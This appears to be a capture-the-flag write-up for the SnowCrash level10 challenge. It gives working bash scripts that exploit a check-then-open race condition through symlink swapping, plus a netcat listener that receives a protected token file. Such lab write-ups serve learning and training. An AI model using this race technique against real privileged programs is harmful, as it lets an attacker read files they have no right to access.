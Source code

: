 # Solution

Once we logged in, inside the home folder we find two file level10 which is a binary and token which is a text file.

When we launch level10 we get this message: 
```sh
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

This give us an help message to properly use the level10 binary, so from this i decided to decompile the program and look what it does.
When taking a closer look at the file i found that it does a check with access() c function which basically will check if you have the right permission to access the file,
from this it will then open the file read what is inside of it and output it in the host that you provided at the port 6969 (noice).

So the exploit is pretty simple since access is first done and then you open file this is a race condition, you need to provide a binary that you have access first,
and replace that one with one that you dont have access and you want to read here token file in the home folder.


So we need to create two script that will run in infinite loop, one will do the race condition, 
while the other will use the level10 binary with filename and host

first script for the race condition:
```sh
#!/bin/bash

touch /var/tmp/valid_file

while true
do
    ln -sf /var/tmp/valid_file /var/tmp/fake
    ln -sf /home/user/level10/token /var/tmp/fake
done
```

second script to send the file: 
```sh
#!/bin/bash

while true
do
    /home/user/level10/level10 /var/tmp/fake 127.0.0.1
done
```

From that we will need to have 3 logged user on level10 one for each script and one extra that will listen via netcat:

1st one launching the race_condition script:
```sh
level10@SnowCrash:~$ bash /tmp/race_condition.sh
```

2nd one launching the sending file script:
```sh
level10@SnowCrash:~$ bash /tmp/send_file.sh
```

3rd one waiting to received the flag via netcat:
```sh
level10@SnowCrash:~$ nc -k 127.0.0.1 6969
```
and we will get the flag once the race condition happen.
